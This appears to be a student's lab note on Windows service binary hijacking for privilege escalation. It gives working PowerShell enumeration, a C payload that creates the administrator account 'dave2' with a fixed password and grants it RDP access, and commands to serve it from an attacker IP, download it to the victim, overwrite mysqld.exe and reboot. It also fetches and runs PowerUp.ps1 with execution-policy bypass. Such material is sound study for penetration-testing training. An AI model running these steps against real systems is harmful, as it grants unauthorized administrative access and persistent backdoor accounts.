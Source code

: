 
> A Windows Service is a long-running background executable or application managed by the Service Control Manager and is similar to the concept of daemons on Unix systems.
> Windows services can be managed by the Services snap-in, PowerShell, or the **sc.exe** command line tool.
> Windows uses the LocalSystem (includes the SIDs of NT AUTHORITY\SYSTEM and BUILTIN\Administrators in its token), Network Service, and Local Service user accounts to run its own services.
> Users or programs creating a service can choose either one of those accounts, a domain user, or a local user.


# Service Binary Hijacking

### Scenario
Software developer creates a program and installs an application as a Windows service.
During the installation, the developer does not secure the permissions of the program, allowing full Read and Write access to all members of the Users group.
As a result, a lower-privileged user could replace the program with a malicious one.
To execute the replaced binary, the user can restart the service or, in case the service is configured to start automatically, reboot the machine.
Once the service is restarted, the malicious binary will be executed with the privileges of the service, such as _LocalSystem_.

Get a list of installed services
```powershell
Get-Service
```

Get a list of all running services
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
	Name                      State   PathName
	----                      -----   --------
	Apache2.4                 Running "C:\xampp\apache\bin\httpd.exe" -k runservice
	Appinfo                   Running C:\Windows\system32\svchost.exe -k netsvcs -p
	AppXSvc                   Running C:\Windows\system32\svchost.exe -k wsappx -p
	AudioEndpointBuilder      Running C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p
	Audiosrv                  Running C:\Windows\System32\svchost.exe -k LocalServiceNetworkRestricted -p
	BFE                       Running C:\Windows\system32\svchost.exe -k LocalServiceNoNetworkFirewall -p
	BITS                      Running C:\Windows\System32\svchost.exe -k netsvcs -p
	BrokerInfrastructure      Running C:\Windows\system32\svchost.exe -k DcomLaunch -p
	...
	mysql                     Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	...
```

List of services running *not* in `c:\windows\system32` path
```powershell
PS C:\Users\dave> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {($_.State -like 'Running') -and ($_.PathName -notlike 'C:\Windows\system32\*')}
	Name          State   PathName
	----          -----   --------
	Apache2.4     Running "C:\xampp\apache\bin\httpd.exe" -k runservice
	BetaService   Running C:\Users\steve\Documents\BetaServ.exe
	edgeupdate    Running "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
	LSM           Running
	mysql         Running C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	uhssvc        Running "C:\Program Files\Microsoft Update Health Tools\uhssvc.exe"
	VGAuthService Running "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
	VMTools       Running "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"
	WinDefend     Running "C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2301.6-0\MsMpEng.exe"
```

These services/ binaries stand out as they're not running from the System32 path.
- Means they're user-installed and the software developer is in charge of the directory structure as well as permissions of the software

To enumerate the binary's permissions, use **icacls**.

Will output the current principles and their permission mask:

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

```powershell
PS C:\Users\dave> icacls "c:\xampp\apache\bin\httpd.exe"
	c:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
	                              NT AUTHORITY\SYSTEM:(F)
	                              BUILTIN\Users:(RX)
	                              NT AUTHORITY\Authenticated Users:(RX)


PS C:\Users\dave> icacls "c:\xampp\mysql\bin\mysqld.exe"
	c:\xampp\mysql\bin\mysqld.exe BUILTIN\Administrators:(F)
	                              NT AUTHORITY\SYSTEM:(F)
	                              BUILTIN\Users:(F)
```
	- httpd service - users have read and execute access
	- mysqld service - users have full access - allows us to write & modify (aka replace) the file

Create binary to replace
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  i = system ("net localgroup 'Remote Desktop Users' dave2 /add");
  
  return 0;
}
```
	- Will add a new user *dave2* with password *password123!*
	- Add new user to Administrators group
	- Will add new user to RDP group

Cross-compile & start a python server
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe

python3 -m http.server 80
```

Download to victim machine and replace mysqld.exe
```powershell
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

As most services are only managed by administrative users, we won't have permission to stop/ restart it.

However, If the service _Startup Type_ is set to "Automatic", we may be able to restart the service by rebooting the machine.
- Check start mode
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
	Name  StartMode
	----  ---------
	mysql Auto
```

- Check user's privileges for reboot
```powershell
PS C:\Users\dave> whoami /priv
	PRIVILEGES INFORMATION
	----------------------
	
	Privilege Name                Description                          State
	============================= ==================================== ========
	SeSecurityPrivilege           Manage auditing and security log     Disabled
	SeShutdownPrivilege           Shut down the system                 Disabled     #<-- NOTE
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled
```

> The _Disabled_ state only indicates if the privilege is currently enabled for the running process. In our case, it means that whoami has not requested and is not currently using the *SeShutdownPrivilege* privilege.

- Issue a reboot
```powershell
shutdown /r /t 0
```

Can verify it worked by RDP'ing back in as `dave` and check
```powershell
PS C:\Users\dave> Get-LocalGroupMember administrators

	ObjectClass Name                      PrincipalSource
	----------- ----                      ---------------
	User        CLIENTWK220\Administrator Local
	User        CLIENTWK220\BackupAdmin   Local
	User        CLIENTWK220\dave2         Local
	User        CLIENTWK220\daveadmin     Local
	User        CLIENTWK220\offsec        Local
```

Will now need to switch over to new user `dave2` AND start a powershell terminal using Admin privs
```powershell
# Switch to new user
PS C:\Users\dave> runAs /user:dave2 powershell.exe

# Open PowerShell 'As Admin'
PS C:\Windows\system32> Start-Process powershell.exe -Verb runAs
```

## Automated PowerUp.ps1

- Stage PowerUp.ps1 tool
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```

- Download on victim and run
```powershell
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1

PS C:\Users\dave> powershell -ep bypass

PS C:\Users\dave>  . .\PowerUp.ps1

# Display services the current user can modify, such as the service binary or configuration files.
PS C:\Users\dave> Get-ModifiableServiceFile

	...
	ServiceName                     : mysql
	Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
	ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
	ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
	ModifiableFileIdentityReference : BUILTIN\Users
	StartName                       : LocalSystem
	AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
	CanRestart                      : False
```

